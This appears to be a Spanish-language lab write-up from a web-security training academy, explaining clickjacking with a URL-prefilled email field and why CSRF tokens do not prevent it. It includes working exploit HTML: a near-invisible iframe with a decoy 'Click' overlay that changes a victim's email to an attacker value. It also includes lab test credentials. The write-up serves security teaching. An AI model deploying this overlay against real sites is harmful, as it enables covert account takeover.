





# 💻 Clickjacking con datos precargados por parámetro

## 📄 Descripción del laboratorio

La página `/my-account` permite actualizar el correo electrónico del usuario y acepta un parámetro `email` en la URL que **precarga automáticamente el valor del formulario**.

Aunque la acción está protegida mediante **token CSRF**, la aplicación no implementa defensas **anti-iframe** como `X-Frame-Options` o `frame-ancestors` en **Content Security Policy**.

El objetivo es:

* Engañar al usuario para que haga clic en **Update email**.
* Utilizar un **email malicioso precargado en la URL**.
* Actualizar su dirección de correo sin que lo sepa.

Credenciales de prueba:

```
wiener:peter
```

 

## 📚 Teoría

Este laboratorio demuestra que **CSRF y Clickjacking son problemas distintos**.

### 📌 Factores que hacen posible el ataque

* El formulario acepta **precarga de datos mediante parámetros en la URL** (`/my-account?email=valor`).
* La página puede cargarse dentro de un **iframe**.
* El **token CSRF se envía automáticamente** desde la sesión del usuario.

### 📌 Funcionamiento del ataque

El atacante realiza los siguientes pasos:

1. Precarga el **email malicioso** en la URL.
2. Incrusta la página en un **iframe casi transparente**.
3. Superpone un elemento visible, como el texto **“Click”**, sobre el botón real.
4. La víctima hace clic en el señuelo.

Como resultado:

* El usuario interactúa con la **interfaz real del sitio vulnerable**.
* El formulario se envía con los **datos manipulados previamente**.
* El **token CSRF válido** se incluye automáticamente en la petición.

 

## 📝 Práctica

### 🎯 Objetivo

Actualizar el correo electrónico de la víctima a un valor controlado por el atacante mediante **Clickjacking**.

 

### 1️⃣ Análisis del formulario

Se inicia sesión con:

```
wiener:peter
```

Se accede a **My account** y se intercepta la petición de actualización.

<br>

Observaciones:

* La petición incluye un **token CSRF**.
* Intentos de ataque directos (eliminar token, usar GET o `_method=POST`) no funcionan.

Esto indica que **CSRF está correctamente implementado**, pero no protege frente a **Clickjacking**.

 

### 2️⃣ Precarga del email mediante la URL

Se prueba la siguiente URL:

```
https://ID-DEL-LAB.web-security-academy.net/my-account?email=hacked@hacked.com
```

Resultado:

El campo **email** se rellena automáticamente con el valor pasado por parámetro.

<br>
 

### 3️⃣ Construcción del exploit

Se crea una página maliciosa en el **Exploit Server** que:

1. Carga `/my-account` con el email malicioso precargado.
2. Hace el iframe casi invisible.
3. Superpone un texto visible **“Click”** sobre el botón **Update email**.

Código del exploit:

```html
<style>
    iframe {
        width: 500px;
        height: 600px;
        opacity: 0.001;
        position: absolute;
        top: 0;
        left: 0;
    }
    div {
        position: absolute;
        top: 450px;
        left: 100px;
        font-size: 30px;
        color: red;
        pointer-events: none;
    }
</style>

<div>Click</div>
<iframe src="https://ID-DEL-LAB.web-security-academy.net/my-account?email=hacked@hacked.com"></iframe>
```

Se ajustan las propiedades `top` y `left` para alinear el señuelo con el botón real.


 <br>

### 4️⃣ Ejecución del ataque

Se guarda el exploit en el **Exploit Server** mediante **Store** y posteriormente se selecciona **Deliver exploit to victim**.


 <br>

### 5️⃣ Resultado final

Cuando la víctima carga la página maliciosa:

1. Ve el texto **“Click”**.
2. Hace clic pensando que es un elemento inofensivo.
3. En realidad pulsa el botón **Update email** dentro del iframe.
4. El **token CSRF válido** se envía automáticamente.
5. El correo se actualiza a:

```
hacked@hacked.com
```

El laboratorio se resuelve correctamente.


